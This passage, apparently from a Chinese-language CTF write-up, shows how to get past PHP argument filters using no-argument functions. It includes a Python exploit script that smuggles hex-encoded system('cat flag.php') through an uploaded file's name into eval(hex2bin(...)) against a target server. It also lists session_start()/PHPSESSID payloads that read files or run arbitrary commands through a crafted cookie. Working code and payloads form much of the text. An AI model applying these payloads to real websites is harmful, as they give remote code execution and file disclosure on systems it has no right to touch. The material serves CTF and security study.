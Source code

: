 **`get_defined_vars()`**返回由所有已定义变量所组成的数组，会返回**`$_GET,$_POST,$_COOKIE,$_FILES`**全局变量的值，返回数组顺序为**`get->post->cookie->files`**

**`current()`** 返回数组中的当前单元，初始指向插入到数组中的第一个单元，也就是会返回**`$_GET`**变量的数组值。

如果需要`$post`就把`current` 改成`next` 就好。

而如果网站对`$_GET,$_POST,$_COOKIE`都做的过滤，那我们只能从`$_FILES`入手了，exp 如下：

```bash
import requests
def str2hex(payload):
  txt = ''
  for i in payload:
      txt += hex(ord(i))[-2:]
  return txt
payload = str2hex("system('cat flag.php');")
files = {
    payload: b'extrader'
}
r = requests.post("http://192.168.0.107/index.php?exp=eval(hex2bin(array_rand(end(get_defined_vars()))));", files=files, allow_redirects=False)  # allow_redirects=False 禁用重定向处理
print(r.content.decode())
```

**array\_rand()：**从数组中随机取出一个或多个单元，如果只取出一个，**`array_rand()`**返回随机单元的键名。否则就返回包含随机键名的数组。

### payload\_4 session\_start()

```bash
show_source(session_id(session_start()));
var_dump(file_get_contents(session_id(session_start())))
highlight_file(session_id(session_start()));
readfile(session_id(session_start())); 或者 readgzfile();
修改 cookie : PHPSESSID= filename

eval(hex2bin(session_id(session_start())));
抓包传入 Cookie: PHPSESSID=("system('命令')"的十六进制)
```

[![](assets/1698897208-4bc2a01f4c4ee24a6ba127e4ca625a98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-478af10e-8d68-1.png)
